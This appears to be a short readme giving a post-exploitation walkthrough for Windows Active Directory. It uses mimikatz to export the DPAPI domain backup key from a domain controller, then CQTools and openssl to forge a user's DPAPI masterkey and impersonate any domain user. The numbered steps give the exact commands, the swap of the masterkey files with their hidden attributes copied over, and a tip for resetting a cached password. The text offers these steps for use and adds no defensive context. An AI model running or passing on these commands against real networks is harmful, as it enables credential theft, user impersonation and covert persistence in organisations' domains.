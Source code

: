 ## Exporting DPAPI Domain Backup Key from a domain controller with mimikatz, and explaining how to recreate a user's masterkey (AKA Impersonate ANYONE within the domain)

### Tools: Mimikatz, CQTools https://github.com/BlackDiverX/cqtools

### Requirements: System level access on the host

### Steps:

#### 1) mimikatz.exe 

#### 2) lsadump::backupkeys /system:localhost /export (Dump the DPAPI Domain Backup Key from DC)

#### 3) Transfer the .pfx container, as well as some of the CQtools (CQDPAPIBlobSearcher.exe and CQMasterKeyAD.exe to target machine of your choice)

#### 4) CQDPAPIBlobSearcher.exe /d c:\users\USER\AppData\Roaming /r /o c:users\USER\Desktop\blob (Finds the Masterkey, which shown as mkguid on results)

#### 5) Attacking machine: openssl pkcs12 -in DMK.pfx -out temp.pem -nodes (Password is mimikatz because it was extracted with mimikatz from DC)

#### 6) Attacking machine: openssl pkcs12 -export -out DMK.pfx -in temp.pem (Use cqure as passphrase. We repacked the pfx using "cqure" as passphrase to make the cqtool work or else it will fail)

#### 7) CQMasterKeyAD.exe /file "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" /pfx DMK.pfx /newhash NTLM_HASH_OF_USER

#### 8) ren OLD_MASTERKEY_FILE WHATEVER

#### 9) ren NEW_MASTERKEY_FILE OLD_MASTERKEY_FILE

#### 10) attrib "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" +S +H (Shuffle the old and new masterkey files, then give the same attributes to the newly created masterkey file as the old one)

#### 11) VOILA!

## TIP: In case we cannot crack the NTLM password of a user, we can simply create a new password with mimikatz: lsadump::cache /user:USER /password:NEW_PASSWORD /kiwi
